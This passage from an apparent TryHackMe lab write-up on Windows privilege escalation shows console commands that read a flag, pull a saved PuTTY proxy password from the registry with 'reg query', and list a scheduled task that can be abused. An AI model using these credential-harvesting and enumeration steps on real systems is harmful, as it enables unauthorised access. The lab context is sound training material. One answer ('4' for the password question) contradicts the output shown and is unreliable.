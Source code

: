 ```console
               2 Dir(s)  15,034,159,104 bytes free

C:\Users\mike.katz\Desktop>type flag.txt
THM{WHAT_IS_MY_PASSWORD}
C:\Users\mike.katz\Desktop>
```
{: .nolineno }

Answer : THM{WHAT_IS_MY_PASSWORD}

### Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?

We can query the registry :

```console
C:\Users\thm-unpriv>reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server
    ProxyExcludeList    REG_SZ
    ProxyDNS    REG_DWORD    0x1
    ProxyLocalhost    REG_DWORD    0x0
    ProxyMethod    REG_DWORD    0x0
    ProxyHost    REG_SZ    proxy
    ProxyPort    REG_DWORD    0x50
    ProxyUsername    REG_SZ    thom.smith
    ProxyPassword    REG_SZ    CoolPass2021
    ProxyTelnetCommand    REG_SZ    connect %host %port\n
    ProxyLogToTerm    REG_DWORD    0x1

End of search: 10 match(es) found.

C:\Users\thm-unpriv>
```
{: .nolineno }

Answer : 4

## TASK 4 : Other Quick Wins 
### What is the taskusr1 flag? 
Applying the method :

```console
C:\Users\thm-unpriv>schtasks | findstr "vuln"
vulntask                                 N/A                    Ready

C:\Users\thm-unpriv>schtasks /query /tn vulntask /fo list /v

Folder: \
HostName:                             WPRIVESC1
TaskName:                             \vulntask
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        9/3/2022 11:13:13 AM
Last Result:                          0
Author:                               WPRIVESC1\Administrator
Task To Run:                          C:\tasks\schtask.bat
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
```